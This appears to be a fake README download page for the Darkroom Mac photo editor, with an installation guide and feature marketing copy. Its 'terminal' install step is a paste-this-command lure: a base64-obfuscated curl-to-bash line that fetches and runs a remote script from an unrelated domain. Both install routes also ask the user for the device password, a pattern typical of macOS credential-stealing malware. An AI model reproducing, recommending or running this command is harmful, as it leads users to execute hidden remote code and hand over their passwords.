 # Darkroom Mac Download
![Darkroom Screenshot 1](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTrHpp_Dl6hcpOtJKhRpLVMcvwWEw7eiBY0y9PNR1PI5nG2xXqKQcjVG2090yMleV9lSdo&usqp=CAU)

---

[![Download Now](https://img.shields.io/badge/Download--Now-Darkroom%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/darkroom)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Darkroom?

Darkroom for Mac is a premium photo and video editing application built with creative professionals in mind. It delivers powerful editing tools in a beautifully minimal interface optimized for macOS. Whether you're a photographer refining RAW images or a content creator tweaking video color profiles, Darkroom provides a fast, real-time workflow that doesn't compromise on quality.

Unlike traditional editors that require importing/exporting workflows, Darkroom integrates deeply with your Mac photo library, letting you edit images and videos instantly. The app offers non-destructive editing, curve adjustments, selective color, watermarking, and batch processing—all while maintaining lightning-fast performance. 

Darkroom is also optimized for Apple Silicon chips, ensuring smooth performance even on high-resolution RAW files and 4K videos. With support for keyboard shortcuts, LUTs, and cloud sync, it fits naturally into professional workflows and scales with your creative needs.

![Darkroom UI](https://darkroom.co/_next/image?url=%2Fassets%2Fimages%2Fposts%2F1____rswTtN2E7QpIqdJ8eTN__g.png&w=3840&q=90)

---

## 🌟 Key Features & Benefits

- 🖼️ Real-Time Editing — No import/export delays; edit directly from your media library  
- 🎨 RAW & ProRAW Support — Professional-grade tools for serious photographers  
- 🎞️ Video Color Grading — Adjust color profiles on 4K video with LUTs  
- 🔄 Non-Destructive Workflow — All edits are reversible at any time  
- 💡 Batch Editing — Apply consistent edits across multiple files  
- 🌈 Curve & Color Controls — Fine-tune tone, saturation, highlights, and shadows  
- 🖥️ macOS Optimized — Fast and smooth on both Intel and Apple Silicon Macs  
- ☁️ Cloud Sync — Sync presets and edits across iOS and macOS devices  

---

## 🖥️ System Requirements

- macOS 11.0 Big Sur or later  
- Intel or Apple Silicon (M1/M2/M3)  
- 4 GB RAM or higher  
- ~100 MB free disk space  

---

## 🏷️ Keywords

darkroom mac, mac darkroom, darkroom macos, darkroom software for mac
